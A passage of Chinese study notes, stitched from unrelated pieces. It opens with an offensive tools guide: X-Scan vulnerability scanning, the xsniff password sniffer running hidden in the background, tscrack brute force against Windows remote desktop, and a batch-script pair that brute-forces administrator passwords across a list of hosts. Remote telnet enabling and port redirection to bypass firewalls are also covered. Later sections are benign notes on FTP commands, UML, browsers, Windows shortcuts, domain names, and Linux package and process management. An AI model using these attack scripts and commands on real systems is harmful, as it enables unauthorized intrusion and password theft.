　　-smtp 检测SMTP-Server漏洞

　　-sql 检测SQL-Server弱口令

　　-smb 检测NT-Server弱口令

　　-iis 检测IIS编码/解码漏洞

　　-cgi 检测CGI漏洞

　　-nasl 加载Nessus攻击脚本

　　-all 检测以上所有项目

　　其它选项

　　-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取

　　-l 显示所有网络适配器

　　-v 显示详细扫描进度

　　-p 跳过没有响应的主机

　　-o 跳过没有检测到开放端口的主机

　　-t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10

　　-log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)

　　用法示例

　　xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机

　　xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机

　　xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机

　　九：

　　命令行方式嗅探器: xsniff.exe

　　可捕获局域网内FTP/SMTP/POP3/HTTP协议密码

　　参数说明

　　-tcp 输出TCP数据报

　　-udp 输出UDP数据报

　　-icmp 输出ICMP数据报

　　-pass 过滤密码信息

　　-hide 后台运行

　　-host 解析主机名

　　-addr IP地址 过滤IP地址

　　-port 端口 过滤端口

　　-log 文件名 将输出保存到文件

　　-asc 以ASCII形式输出

　　-hex 以16进制形式输出

　　用法示例

　　xsniff.exe -pass -hide -log pass.log 后台运行嗅探密码并将密码信息保存在pass.log文件中

　　xsniff.exe -tcp -udp -asc -addr 192.168.1.1 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出

　　终端服务密码破解: tscrack.exe

　　参数说明

　　-h 显示使用帮助

　　-v 显示版本信息

　　-s 在屏幕上打出解密能力

　　-b 密码错误时发出的声音

　　-t 同是发出多个连接（多线程）

　　-N Prevent System Log entries on targeted server

　　-U 卸载移除tscrack组件

　　-f 使用－f后面的密码

　　-F 间隔时间（频率）

　　-l 使用－l后面的用户名

　　-w 使用－w后面的密码字典

　　-p 使用－p后面的密码

　　-D 登录主页面

　　用法示例

　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

　　@if not exist ipcscan.txt goto noscan

　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

　　nscan

　　@echo 3389.txt no find or scan faild

　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

　　@if not exist tscrack.exe goto noscan

　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt

　　:noscan

　　@echo tscrack.exe no find or scan faild

　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。

　　其它

　　Shutdown.exe

　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）

　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）

　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息

　　Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。

　　OpenTelnet.exe (远程开启telnet工具)

　　opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。

　　NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。

　　ResumeTelnet.exe (OpenTelnet附带的另一个工具)

　　resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。

　　FTP命令详解

　　FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。

　　FTP的命令行格式为：

　　ftp -v -d -i -n -g [主机名] ，其中

　　-v 显示远程服务器的所有响应信息

　　-n 限制ftp的自动登录，即不使用；.n etrc文件；

　　-d 使用调试方式；

　　-g 取消全局文件名。

　　FTP使用的内部命令如下(中括号表示可选项):

　　1.![cmd[args]]：在本地机中执行交互shell，exit回到ftp环境，如：!ls*.zip

　　2.$ macro-ame[args]： 执行宏定义macro-name。

　　3.account[password]： 提供登录远程系统成功后访问系统资源所需的补充口令。

　　4.append local-file[remote-file]：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。

　　5.ascii：使用ascii类型传输方式。

　　6.bell：每个命令执行完毕后计算机响铃一次。

　　7.bin：使用二进制文件传输方式。

　　8.bye：退出ftp会话过程。

　　9.case：在使用mget时，将远程主机文件名中的大写转为小写字母。

  　　10. cd remote-dir：进入远程主机目录。

　　11.cdup：进入远程主机目录的父目录。

　　12.chmod mode file-name：将远程主机文件file-name的存取方式设置为mode，如：chmod 777 a.out。

　　13.close：中断与远程服务器的ftp会话(与open对应)。

　　14 .cr：使用asscii方式传输文件时，将回车换行转换为回行。

　　15.delete remote-file：删除远程主机文件。

　　16.debug[debug-value]：设置调试方式， 显示发送至远程主机的每条命令，如：deb up 3，若设为0，表示取消debug。

　　17.dir[remote-dir][local-file]：显示远程主机目录，并将结果存入本地文件。

　　18.disconnection：同close。

　　19.form format：将文件传输方式设置为format，缺省为file方式。

　　20.get remote-file[local-file]： 将远程主机的文件remote-file传至本地硬盘的local-file。

　　21.glob：设置mdelete，mget，mput的文件名扩展，缺省时不扩展文件名，同命令行的-g参数。

　　22.hash：每传输1024字节，显示一个hash符号(#)。

　　23.help[cmd]：显示ftp内部命令cmd的帮助信息，如：help get。

　　24.idle[seconds]：将远程服务器的休眠计时器设为[seconds]秒。

　　25.image：设置二进制传输方式(同binary)。

　　26.lcd[dir]：将本地工作目录切换至dir。

  　　27. ls[remote-dir][local-file]：显示远程目录remote-dir， 并存入本地文件local-file。

　　28.macdef macro-name：定义一个宏，遇到macdef下的空行时，宏定义结束。

　　29.mdelete[remote-file]：删除远程主机文件。

　　30.mdir remote-files local-file：与dir类似，但可指定多个远程文件，如 ：mdir *.o.*.zipoutfile 。

　　31.mget remote-files：传输多个远程文件。

　　32.mkdir dir-name：在远程主机中建一目录。

　　33.mls remote-file local-file：同nlist，但可指定多个文件名。

　　34.mode[modename]：将文件传输方式设置为modename， 缺省为stream方式。

　　35.modtime file-name：显示远程主机文件的最后修改时间。

　　36.mput local-file：将多个文件传输至远程主机。

　　37.newer file-name： 如果远程机中file-name的修改时间比本地硬盘同名文件的时间更近，则重传该文件。

　　38.nlist[remote-dir][local-file]：显示远程主机目录的文件清单，并存入本地硬盘的local-file。

　　39.nmap[inpattern outpattern]：设置文件名映射机制， 使得文件传输时，文件中的某些字符相互转换， 如：nmap $1.$2.$3[$1，$2].[$2，$3]，则传输文件a1.a2.a3时，文件名变为a1，a2。 该命令特别适用于远程主机为非UNIX机的情况。

　　40.ntrans[inchars[outchars]]：设置文件名字符的翻译机制，如ntrans1R，则文件名LLL将变为RRR。

　　41.open host[port]：建立指定ftp服务器连接，可指定连接端口。

　　42.passive：进入被动传输方式。

　　43.prompt：设置多个文件传输时的交互提示。

　　44.proxy ftp-cmd：在次要控制连接中，执行一条ftp命令， 该命令允许连接两个ftp服务器，以在两个服务器间传输文件。第一条ftp命令必须为open，以首先建立两个服务器间的连接。

　　45.put local-file[remote-file]：将本地文件local-file传送至远程主机。

　　46.pwd：显示远程主机的当前工作目录。

　　47.quit：同bye，退出ftp会话。

　　48.quote arg1，arg2...：将参数逐字发至远程ftp服务器，如：quote syst.

　　49.recv remote-file[local-file]：同get。

　　50.reget remote-file[local-file]：类似于get， 但若local-file存在，则从上次传输中断处续传。

　　51.rhelp[cmd-name]：请求获得远程主机的帮助。

　　52.rstatus[file-name]：若未指定文件名，则显示远程主机的状态， 否则显示文件状态。

　　53.rename[from][to]：更改远程主机文件名。

　　54.reset：清除回答队列。

　　55.restart marker：从指定的标志marker处，重新开始get或put，如：restart 130。

　　56.rmdir dir-name：删除远程主机目录。

　　57.runique：设置文件名只一性存储，若文件存在，则在原文件后加后缀.1， .2等。

　　58.send local-file[remote-file]：同put。

　　59.sendport：设置PORT命令的使用。

　　60.site arg1，arg2...：将参数作为SITE命令逐字发送至远程ftp主机。

　　61.size file-name：显示远程主机文件大小，如：site idle 7200。

　　62.status：显示当前ftp状态。

　　63.struct[struct-name]：将文件传输结构设置为struct-name， 缺省时使用stream结构。

　　64.sunique：将远程主机文件名存储设置为只一(与runique对应)。

　　65.system：显示远程主机的操作系统类型。

　　66.tenex：将文件传输类型设置为TENEX机的所需的类型。

　　67.tick：设置传输时的字节计数器。

　　68.trace：设置包跟踪。

　　69.type[type-name]：设置文件传输类型为type-name，缺省为ascii，如:type binary，设置二进制传输方式。

　　70.umask[newmask]：将远程服务器的缺省umask设置为newmask，如：umask 3

　　71.user user-name[password][account]：向远程主机表明自己的身份，需要口令时，必须输入口令，如：user anonymous my@email。

　　72.verbose：同命令行的-v参数，即设置详尽报告方式，ftp 服务器的所有响 应都将显示给用户，缺省为on.

　　73.?[cmd]：同help.


## 原型图

process的工具


## UML

> 分类: [Java](https://www.cnblogs.com/virgree/category/775920.html)
>
> 标签: [UML](https://www.cnblogs.com/virgree/tag/UML/)

```
统一建模语言（英语：Unified Modeling Language，缩写 UML）是非专利的第三代建模和规约语言。UML是一种开放的方法，用于说明、可视化、构建和编写一个正在开发的、面向对象的、软件密集系统的制品的开放方法。UML展现了一系列最佳工程实践，这些最佳实践在对大规模，复杂系统进行建模方面，特别是在软件架构层次已经被验证有效。
```





**画图说明**

UML(统一建模语言)：是面向对象的可视化建模的一种语言。是数据库设计过程中，在E-R图（实体-联系图）的设计后的进一步建模。
UML中有3种构造块：事物、关系和图，事物是对模型中最具有代表性的成分的抽象；关系是把事物结合在一起；图聚集了相关的的事物。具体关系图标如下：


说明：
构件事物是名词，是模型的静态部分。
行为事物是动态部分，表示行为。
分组事物是组织部分。
注释事物是解释部分。

* 依赖：一个事物变化会引起另一个事物变化。
* 聚集：特殊的关联，描述整体与部分的组合关系。
* 泛化：是一种特殊与一般的关系，如子元素（特殊）与父元素（一般），箭头指向父元素。
* 实现：类元之间的关系，其中一个类元指定了由另一个类元保证执行的契约。一般用在接口和实现他们的类之间或用例和实现它们的协作之间。

UML提供9种视图：类图、对象图，用例图，序列图、协作图，状态图、活动图，构件图和部署图。


在UML系统开发中有三个主要的模型：

- 功能模型: 从用户的角度展示系统的功能，包括用例图。
- 对象模型: 采用对象，属性，操作，关联等概念展示系统的结构和基础，包括类图。
- 动态模型: 展现系统的内部行为。 包括序列图，活动图，状态图。


## 组织结构图







## BPMN

> ​	BPMN:业务流程建模与标注，包括这些图元如何组合成一个[业务流程图](https://baike.so.com/doc/5399955-5637517.html)(Business Process Diagram);讨论BPMN的各种的用途，包括以何种精度来影响一个流程图中的模型;BPMN作为一个标准的价值，以及BPMN未来发展的远景。


## 软件使用02

<u>**浏览器**</u>

**网页浏览器**（英语：web browser），常被简称为**浏览器**，是一种用于检索并展示[万维网](https://zh.wikipedia.org/wiki/%E5%85%A8%E7%90%83%E8%B3%87%E8%A8%8A%E7%B6%B2)信息资源的[应用程序](https://zh.wikipedia.org/wiki/%E6%87%89%E7%94%A8%E7%A8%8B%E5%BC%8F)。这些信息资源可为网页、图片、影音或其他内容，它们由[统一资源标志符](https://zh.wikipedia.org/wiki/%E7%B5%B1%E4%B8%80%E8%B3%87%E6%BA%90%E6%A8%99%E8%AA%8C%E7%AC%A6)标志。信息资源中的[超链接](https://zh.wikipedia.org/wiki/%E8%B6%85%E9%80%A3%E7%B5%90)可使用户方便地浏览相关信息。

网页浏览器虽然主要用于使用万维网，但也可用于获取[专用网络](https://zh.wikipedia.org/wiki/%E4%B8%93%E7%94%A8%E7%BD%91%E7%BB%9C)中[网页服务器](https://zh.wikipedia.org/wiki/%E7%B6%B2%E9%A0%81%E4%BC%BA%E6%9C%8D%E5%99%A8)之信息或[文件系统](https://zh.wikipedia.org/wiki/%E6%AA%94%E6%A1%88%E7%B3%BB%E7%B5%B1)内之文件。

对于浏览器都不陌生，上网的必需品。
这里主要给大家介绍的浏览器的内核，这是浏览器最核心的部分。

浏览器内核：

- Trident（IE内核）
  - IE 浏览器
  - 猎豹浏览器
  - 360安全浏览器（兼容模式）
  - 傲游浏览器
  - 2345 浏览器
  - 等等
- Gecko（Firefox内核）
  - FireFox
  - Iceweasel
  - Netscape
- Webkit（Chrome内核，Safari内核）
  - Chrome
  - Safari
  - UC
  - 搜狗
  - 安卓默认浏览器
- Presto（Opera 内核）
  - Opera
  - Nokia 770
- Blink（Google + Opera）
  - chrome
  - 360 极速浏览器（极速模式）
  - 猎豹浏览器
  - 搜狗浏览器
  - UC
  - 等等
- Servo（Mozilla + Samsung）开发中

------

**截图**

> 别老用 【QQ】 或 【微信】截图了！！！

- [FastStone Capture](http://www.pc6.com/softview/SoftView_14254.html) （随用随开，小巧实用）
- [Snipaste](http://zh.snipaste.com/)（功能强大，推荐）

------

**录屏**

- [Bandicam](http://www.bandicam.cn/) 大众高清，占用空间小
- [Fraps](http://www.fraps.com/) 超清，适合游戏，占用空间大
- [FSCapture](http://www.pc6.com/softview/SoftView_14254.html) 简单，画质一般，小巧实用

------

**命令行工具**

- [Cmder](https://cmder.net/) （功能强大，实用系数高)
- [Git Bash](https://git-scm.com)（版本库管理使用）

------

**软件卸载**

> 软件卸载并非只是 右键删除就可以的。
> 一般你删除的只是软件的快捷方式

正确的卸载软件方式：

1. 按住 `win + R`
2. 输入 `control`
3. 点选 `程序和功能`
4. 双击 要卸载的软件
5. 根据提示 步骤进行卸载即可

> Windows 环境下，想要卸载彻底，还需要清理注册表。
> 这里推荐 [CCleaner 清理工具](https://www.ccleaner.com/ccleaner)

------

**Windows 基本快捷键操作**

| 1.windows                             | 描述                             |
| ------------------------------------- | -------------------------------- |
| Win + E                               | 我的电脑                         |
| Win + R                               | 运行框                           |
| Win + L                               | 锁屏                             |
| <u>Win + D</u>                        | 显示 / 隐藏 桌面                 |
| Win + T（这个类似于 alt+ tab）        | 快速切换任务栏                   |
| <u>Win + 方向键</u>                   | <u>快速调整窗口（分屏显示）</u>  |
| win+ 上 变大全屏                      |                                  |
| win+下 变下，最小化                   |                                  |
| win+左  是分屏                        |                                  |
| win+右 右边分屏                       |                                  |
| Win + 数字                            | 快速打开任务栏程序，1 代表最左边 |
| 1开始 2. 小娜 3.视图 ；4 ie作为第一个 |                                  |
| Alt + F4                              | 关闭当前程序（包括关机）         |

------

> 如何使用快捷键将 Chrome 浏览器光标定位到地址栏
>
> Windows: Ctrl + L 或 Alt + D 或 F6 
> Mac: Command + L
> Linux: Ctrl + L


**对文件和文件夹进行操作**

| 2.文件夹             | 描述                        |
| -------------------- | --------------------------- |
| Alt + D              | 定位到地址栏                |
| enter进入文件夹      |                             |
| Alt + 左键           | 查看上一个文件夹            |
| Alt + 右键           | 查看下一个文件夹            |
| Alt + 上键（无下键） | 查看父级文件夹/             |
| Ctrl + W             | 关闭当前窗口 （不包括关机） |
|                      |                             |
| Ctrl + shift + N     | 新建文件夹                  |

用cmd 来运行 ，快捷方式；


```sh
C:\Users\天子>cmd
Microsoft Windows [版本 10.0.17763.737]
(c) 2018 Microsoft Corporation。保留所有权利。

C:\Users\天子>regedit
进入注册表

C:\Users\天子>control
控制面板

C:\Users\天子>notepad
txt

C:\Users\天子>mspaint
画图板；

C:\Users\天子>dxdiag
directx诊断工具

C:\Users\天子>msconfig
系统配置，这儿有 安全引导；正常启动

C:\Users\天子>services.msc
服务

C:\Users\天子>devmgmt.msc
设备管理器 /对设备管理，看看有没有装驱动、运行状态

C:\Users\天子>ncpa.cpl
控制面板\网络和 Internet\网络连接  看一下网络

C:\Users\天子>taskmgr
任务管理器  = 可以看到 进程；性能； 应用历史记录 ；详细信息；服务
在详细信息里面；找到 explorer.exe  pid= 4132  结束任务-> 结束进程 

C:\Users\天子>explorer
如果没有explorer.exe，则运行 这个软件
如果有 则进入我的电脑这个文件夹；

C:\Users\天子>winver
就是信息

```


## **运行框命令**

| 命令                                                | 描述                                                         |
| --------------------------------------------------- | ------------------------------------------------------------ |
| cmd                                                 | 命令提示符                                                   |
| regedit                                             | 注册表([计] 注册表编辑器)                                    |
| control(控制)                                       | 控制面板                                                     |
| calc（The calculator）                              | 计算器                                                       |
| <u>notepad</u>                                      | 记事本                                                       |
| <u>mspaint</u>                                      | 画图                                                         |
| dxdiag（牛p）                                       | 系统硬件信息                                                 |
| msconfig （Microsoft System Configuration Utility） | 启动项（系统配置实用程序）<br />系统配置                     |
| services.msc                                        | 服务                                                         |
| devmgmt.msc                                         | 设备管理器                                                   |
| ncpa.cpl                                            | 网卡配置ifconfig（mac） + ipconfig（win）<br />控制面板\网络和 Internet\网络连接 |
| taskmgr（control（控制）+ option（选项））          | 任务管理器（n）.exe                                          |
| explorer                                            | 资源管理器（）探险家，勘探者                                 |
| winver                                              | 显示 About Windows 窗口                                      |

------

**<u>浏览器</u>快捷按键**

> Chrome 常用 / 国产浏览器 基本支持

| 快捷键                                                   | 描述                                       |
| -------------------------------------------------------- | ------------------------------------------ |
| Ctrl + R                                                 | 刷新                                       |
| Alt + F4                                                 | 关闭浏览器                                 |
| Ctrl + W（这个好用啊）                                   | 关闭当前窗口                               |
| <u>Ctrl + Shift + T（恢复 ）</u> （command+ t 就是新建） | 重新打开最后关闭的标签页，并跳转到该标签页 |
| <u>ctrl+h  历史</u>                                      | 查看历史                                   |
| Ctrl + N（另外打开一个窗口）                             | 打开新窗口                                 |
| Ctrl + T                                                 | 打开新的标签页                             |
| Ctrl + F                                                 | 本页面搜索                                 |
| Ctrl + Tab（control +tab==mac跳）                        | 跳转到下一个标签页                         |
| Alt + 左方向键                                           | 历史记录上一页                             |
| Alt + 右方向键                                           | 历史记录下一页                             |
| Ctrl + Shift + B                                         | 显示 / 隐藏书签栏                          |
| <u>Alt + D（command+L）</u>                              | 跳转到地址栏                               |
| Ctrl + D                                                 | 将当前网页保存为<u>书签</u>                |
| Ctrl + + （command +）                                   | 放大网页上的所有内容                       |
| Ctrl + -                                                 | 缩小网页上的所有内容                       |
| Ctrl + 0                                                 | 将网页上的所有内容恢复到默认大小           |
| Ctrl + 点击链接                                          | 在新的后台标签页中打开链接                 |
| F11（control+command+f）                                 | 网页全屏                                   |
| Ctrl + U（option + command +u）                          | 查看源码                                   |
| Ctrl + Shift + I                                         | 打开调试工具（检查）                       |

------


**文件扩展名**

> <u>绝大多数的文件名字格式</u>：`文件名.扩展名`

**命名要求**

- 文件名要求：(也适用于 文件夹)
  - 不能包含以下字符：`/ \ | : ? * " < >`
- 扩展名要求:
  - 不能包含以下字符：`/ \ | : ? * " < >`

> 文件 可以没有扩展名
>
> 文件夹名 不需要扩展名(后缀)

**开启/隐藏扩展名**

> Win 7


Win 7


> Win 10




## xyz域名

top，vip，xyz，cx，ws，in这几个域名哪个后缀比较好？

> ​	.xyz是互联网域名系统的通用顶级域，由ICANN的新通用顶级域名计划提出。受互联网和域名自身的无限潜力启发（例如，其自身较短且富有创意；由三个连续英文字母组成，十分直观），该域名试图代表下一代互联网“XYZ”——即包含了X世代、Y世代和Z世代的全球社群，通过新的方式向全球人类提供新的交流平台。
>
> > 	从建站数量上：Alexa全球前一百万网站排名中，.xyz有2400多个，相比任何其他新顶级域名后缀要高出至少1000多个。
> > 	从建站质量上：除了众所周知的谷歌母公司Alphabet的abc.xyz，重量级的 .xyz数量繁多，例如德勤（世界四大会计师事务所之一）的 Exponentials.xyz、FutureFin.xyz、麻省理工（工程学世界第一、计算机科学世界第二的大学）的Engine.xyz、Skype创始人的Starship.xyz、HBO电视网（占据美国付费电视频道90%的份额，也是著名的《权力的游戏》电视剧的制作方）的Hooli.xyz。以及获520万美元投资的Umake.xyz，获400万美元投资的Practice.xyz等等，更多案例可以访问gen.xyz/live。
> > 	从域名健康上：根据域名滥用统计网站Spamhaus数据显示，.xyz的滥用指数分仅为0.91分，而滥用指数分最高的 .gdn 为8.34。说明 .xyz的滥用率极低，健康度非常高。
> > 	从本身含义上：XYZ作为字母表最后三个字母，令人过目不忘，且全球熟知。字母表以xyz结束，域名以.xyz结尾同样流畅自然。XYZ是三个声母也是辅音，例如在汉语拼音中可以拼成小宇宙、下一站、幸运者、小燕子、新宇宙等等，在其他语言中的组合数不胜数；正如X、Y和Z也代表着空间的三个维度，X轴、Y轴、Z轴，.XYZ域名包罗万象，寓意无限种。
> > 	更多更新的信息推荐访问.xyz官方平台：
> >
> > 	中文官网：www.gen.xyz/cn/blog
> > 	知乎/新浪微博/微信公众号/今日头条：ID统一为 XYZ网站域名
> > 	或者使用VPN访问 Instagram, Twitter, Facebook，ID统一为 xyz


<u>**.top**</u>

> ​	.top是由江苏邦宁科技有限公司负责运营管理的一个新通用顶级域名，[1]于2014年11月18日开放注册，[2]并于2015年4月14日获得中华人民共和国工业和信息化部批复。[3]“top”在英语中是“顶端”的意思。截止2018年9月，.top域名的注册量达到320万


**网络**

.com国际

只是一个称呼，备案的；不分大小写的；

- .cn
- .top
- .cn
- .net
- .com.cn 
- Io


## 基本快捷键

#### 终止命令

在持续执行命令 or 命令等待界面, 如果不想在等或继续执行, 通过`终止命令`强行结束

```
快捷键:
	ctrl + c

```


#### 清屏

当屏幕命令非常繁多, 眼花缭乱时, 推荐清理一下屏幕

```
快捷键:
	ctrl + L 
命令: 
	clear

```


#### 命令补全

当 linux命令较长 or 地址路径较长 or 地址名记不全, 都可以通过 补全来`做提示`

补全键: `Tab`


#### 退出系统

退出当前系统

```
快捷键:
	Ctrl + D

命令: 
	exit


```

------


## 软件包

在Linux系统中, 所有软件包可以分为以下两种: 

- 二进制包 ( 安装速度快, 不可自定义安装 )
- 源码包    ( 编译时间长, 效率高, 可自定义安装 )


**二进制包**

二进制包的格式: `文件名.rpm`


**查看 iso镜像的rpm包**

1. 挂载 iso镜像 到 /mnt/iso

   不会的, 可以先学习前面的 `挂载.md` 教程

2. 进入 /mnt/iso/Package

3. `ls` 查看所有的 rpm包

4. 统计一共有多少个文件, 命令: `ls | wc -l`

   我的iso镜像中, 发现有 3000多rpm包

   这些 rpm包的命名规则如下: 

   `软件名-版本号-更新次数.el6.平台.rpm`

   其中 el6 代表centos 6

   平台:

   - i386 	32位操作系统
   - i686        是i386的一个子集
   - x86_64    64位操作系统
   - noarch     跨平台

------

对于 rpm包有 两种安装方式:

- rpm 
- yum 


**rpm安装**

```
格式:
	rpm [选项] 软件包名

```

```
选项:
	-i 	显示相关信息
	-v  显示安装过程
	-h  显示安装时的进度标记
	-q  查询包
	-l  查询包的安装位置
	-f  查询某文件的起源包
	-a  查询安装过的rpm包
	-U  升级rpm包
	-e  删除指定rpm包

```

1. **安装** tree 软件包

   命令: `rpm -ivh tree-1.5.3-3.el6.x86_64.rpm`

   

2. **升级** tree 软件包

   命令: `rpm -Uvh tree-1.5.3-3.el6.x86_64.rpm `

   

3. **卸载**tree 软件包

   命令: `rpm -e tree`

   注意, 这里的tree 软件包, 不要填写完整, 只需要协商tree即可. 相当于命令名

   

4. 查询**是否已安装过 tree包**

   命令: `rpm -q tree` 	检测是否已经安装过 tree包

   命令: `rpm -qi tree`    检测是否安装过tree包, 并详细显示

   

5. 查询**所有安装过的 软件包**

   命令: `rpm -qa `

   会显示所有已经安装过的 rpm包

   

6. 查询 **tree包的安装位置**

   命令: `rpm -ql tree `

   可以查看到 tree包 可执行命令, 文档, 帮助等 文件位置

   

7. 查询 **tree命令的起源包**

   命令: `rpm -qf /usr/bin/tree`

   查看 tree命令是安装哪个包后而产生的

   **注意: ** 这里的tree命令一定要说清具体位置


**yum安装**

yum 一般有两个安装来源:

- 在线官网
- iso镜像

默认情况, 都是在线官网, 只要有网络, 就可以直接下载.

iso镜像是本地有现成的镜像, 那也可行本地安装, 就不需要联网了


```
格式:
	yum [选项] 软件包名

```

```
选项:
	-y 	在安装过程中, 所有的确认, 都认为是yes

```

1. 安装  tree软件包

   命令: `yum -y install tree`

   非常的简单, 方便.

2. 列出所有已安装的 软件包

   命令: `yum list installed `

3. 查看是否已安装  tree包

   命令: `yum list installed | grep tree`

   先查询所有安装的包, 再查询其中是否有 tree包.  `|` 是后期要学习的管道技术

4. 更新 tree包

   命令: `yum update tree`

5. 卸载 tree包

   命令: `yum -y remove tree` 

6. 查看 tree包的安装位置 与 rpm 命令相同


**如何辨别这是 在线安装还是 iso镜像安装？**

命令: `cd /etc/yum.repos.d`

`CentOS-Base.repo`  里面就是在线官网的地址

`CentOS-Media.repo` 里面就是本地挂载镜像的地址

> 注意:  只要 `CentOS-Base.repo`存在, 则优先使用 在线地址, 反之, 优先使用 本地镜像


**在线官网地址**

命令: `vim CentOS-Base.repo`  

- mirrorlist 	在线安装的 yum包都是从这个地址上下载下来的


**本地iso镜像**

命令: `vim CentOS-Media.repo`

- baseurl       挂载地址

- gpgcheck    安全检测  `1:开启` `0:关闭`  (由于 iso镜像是写保护, 基本无需担心安全问题)

- enabled      是否启用此配置  `1: 启用`  `0: 禁用`

- gpgkey       与gpgcheck 绑定使用, 如果 安全检测关闭, 该项则无需改动

  **注意:**

​	如果使用 iso镜像安装, 则必须先将 CentOS-Base.repo 改成其他名字, 否则优先使用Base 


**源码包**

**安装**

此安装方式,  是我们提前先准备好 .tar.gz包,  由windows传递给Linux, 直接本地安装.

那么就需要先在 windows中安装 Xshell, Xfpt 等远程工具了.

- Xshell  远程管理工具
- Xfpt     远程传输工具


1. 打开Xshell并连接Linux

    

2. 在Linux的 /root 查看是否成功传输过来

   命令: `ls /root`

   

3. 解压并进入

   命令: `tar -xf httpd-2.2.9.tar.gz`

   命令: `cd httpd-2.2.9`

   

4. 查看帮助文件

   命令: `vim README`

   主要用于 这个包主要是干什么, 官方怎么介绍的

   

   命令: `vim INSTALL`

   主要介绍 **如何安装这个包**,  不知道怎么安装的, 可以参考此文件

   

5. 安装 gcc 编译器

   命令: `yum -y install gcc`

   由于后面的 httpd 需要gcc编译, 所有需要提前安装好

   

6. 自定义安装目录

   命令: `./configure --prefix=/usr/local/apache2/`

   这些命令都是由 **INSTALL** 推荐介绍的

   意思是:  将当前包 安装到  **/usr/local/apache2/** 下

7. 编译

   命令: `make`

   一般编译时间, 都比较长.

   

8. 编译安装

   命令: `make install`

   

9. 启动 apache服务

   命令: `/usr/local/apache2/bin/apachectl start`

   

10. 检测是否能访问 Apache

    在windows中, 打开浏览器, 输入地址:  192.168.31.17 (这是我linux的ip地址, 可通过 ifconfig查看)

    如果显示 **It works!** 即代表成功安装. 

    以上就是httpd源码包的安装方式了, 如果没有成功访问, 最好在**关闭防火墙**后, 再测试一下.

    

**升级**

对于源码包的升级, 一般都会选择重新编译安装, 毕竟是离线的本地安装.

**卸载**

源码包的卸载比较暴力, 直接通过 `rm -rf` 的方式删除卸载

------


## 进程与服务

**进程**

所有正在执行的程序, 都会在进程中展示.

So, 我们可以通过**查看进程**, **判断服务器健康状态**, **终止进程** 等操作


**查看进程**

```
格式:
	ps [选项]

```

```
选项:
	-a 	显示所有进程(根据终端区分)
	-x  显示所有进程(不区分终端)
	-l  详情显示(长格式)
	-u  显示用户名
	-C  显示指定进程状态
	-f  显示的更详细, 例如 UID, PPIP等
	

```

1. 显示所有当前进程

   命令: `ps -ax`

2. 显示某一用户的相关进程

   命令: `ps -u xiaoming`

   只显示 `用户xiaoming` 正在使用的进程

3. 显示 CPU 和 内存信息

   命令: `ps -aux`

4. 显示指定进程信息

   命令: `ps -C httpd`

   只看看 进程httpd 的相关信息

5. 显示指定pid信息

   命令: `ps -fL 26464`

   详细显示 pid=26464 的相关信息


**进程树**

有些进程会有一些依赖关系, 以 树形图显示的话 比较直观

```
格式:
	pstree

```


**实时查看整体运行情况**

实时监测整个系统的运行状态, 例如 cpu, 内存

也可以通过`交互命令`改变排版

```
格式:
	top

```

```
交互命令:
	M 	按内存排序
	P   按CPU排序
	k   杀死进程, 之后输入pid来选择杀死那个进程
	q   退出

```


**终止进程**

```
格式:
	kill [选项] 进程名 或 PID

```

```
选项:
	-9 	强制终止

```


**服务**

服务本身其实就是一个软件, 只是该软件会被其他的软件所依赖或引用, 相当于是给其他软件提供的一些服务, 所以称该软件为 **服务**

```
格式: 
	chkconfig [--add][--del][--list][系统服务]
	chkconfig [--level 等级代号 ][系统服务][on/off/reset]

```

```
--add 添加服务
--del 删除服务
--list 显示服务

等级代号
0 : 关机, 一般很少设为0, 否则无法正常启动
1 : 单用户模式, 只能root登录, 禁止远程登录
2 : 无网络连接的多用户命令行模式
3 : 有网络连接的多用户命令行模式
4 ：不可用, 在系统没有使用时,操作一些事情.
5 ：带图形界面的多用户模式, 图形化界面
6 ：重新启动


```


**分类**

在Linux中, 将服务分为了两类:

